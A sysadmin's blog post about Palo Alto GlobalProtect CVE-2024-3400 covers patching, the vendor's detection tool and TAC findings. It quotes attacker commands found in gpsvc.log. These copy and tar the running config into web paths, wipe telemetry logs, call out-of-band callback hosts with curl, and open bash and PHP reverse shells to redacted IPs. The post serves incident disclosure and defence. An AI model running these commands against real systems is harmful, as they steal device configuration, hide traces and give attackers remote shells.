 ```yaml
---
layout: post
title:  "Palo Alto CVE-2024-3400"
date:   2024-04-21 09:31:00 -0400
categories: vulnerability
---
```


This [Palo Alto vulnerability](https://security.paloaltonetworks.com/CVE-2024-3400) has been a huge headache last week.  I guess we have every firewall upgraded to a safe version now (10.2.8-h3).  So, damage may have been minor from this.

I have been following the chatter on [reddit](https://www.reddit.com/r/paloaltonetworks/), and Palo Alto Networks has a new tool that will check your Tech Support Files and let you know if your device has been exploited and you have to do a device reset, or if has not and you just need to upgrade.  So far, all of our devices only need an upgrade based on that tool.

I checked the gpsvc.log file and I can see a lot of commands trying to export config files and info, delete files, and attempt to start a reverse shell with "bash -i" and then "php -r"

I redacted the IP addresses.

```
cp /opt/pancfg/mgmt/saved-configs/running-config.xml /var/appweb/sslvpndocs/global-protect/portal/images/logo-pan-48125a.png
tar -czf /var/appweb/sslvpndocs/global-protect/portal/js/jquery.sex.js /opt/pancfg/mgmt/saved-configs/running-config.xml
rm -rf /var/appweb/sslvpndocs/global-protect/portal/js/jquery.sex.js
rm -rf /opt/panlogs/tmp/device_telemetry/minute/*
echo 123456 > /var/appweb/sslvpndocs/global-protect/portal/js/jquerys.max.js
tar -czf /var/appweb/sslvpndocs/global-protect/portal/js/HMlHkU.js /opt/pancfg/mgmt/saved-configs/running-config.xml
curl rql4aekqvrqe8eizlf16skvjcai36tui.oastify.com
echo 3acf16259def65456fc2a68ab5e10d96$(uname -a) > /var/appweb/sslvpndocs/global-protect/portal/images/paloalto-logo.txt
bash -i >&/dev/tcp/<ip1>/443 0>&1
cp /opt/pancfg/mgmt/saved-configs/running-config.xml /var/appweb/sslvpndocs/global-protect/portal/images/rpp.txt
bash -i >&/dev/tcp/<ip1>/7070 0>&1
bash -i >& /dev/tcp/<ip2>/5000 0>&1
touch /var/appweb/sslvpndocs/global-protect/portal/images/foob2.txt
/usr/bin/php -r '$sock=fsockopen("<ip2>",5000);$proc=proc_open("bash", array(0=>$sock,1=>$sock, 2=>$sock),$pipes);'
php -r '$sock=fsockopen("<ip2>",5000);$proc=proc_open("bash", array(0=>$sock, 1=>$sock,2=>$sock),$pipes);'
touch /var/appweb/sslvpndocs/global-protect/portal/images/foob2.txt
curl obugthbjgbtxngvppgaonru691httfo9n.oast.fun
```

Attackers are likely using common pentesting tools like Burp Suite to grab session ids and other information that they could use.  This could have been automated also, but very difficult to tell.

It's very tough to know if these commands were successful or not without having Palo Alto TAC involved, and TAC is completely swamped with all of this, so we were not able to get much from them so far.

Analysis by [Volexity](https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/)

Since TAC has re-examined these Tech Support files and they came back that there was no malicious compromises or code executions, they recommended an upgrade only.  I really hope those reverse shell attempts failed.
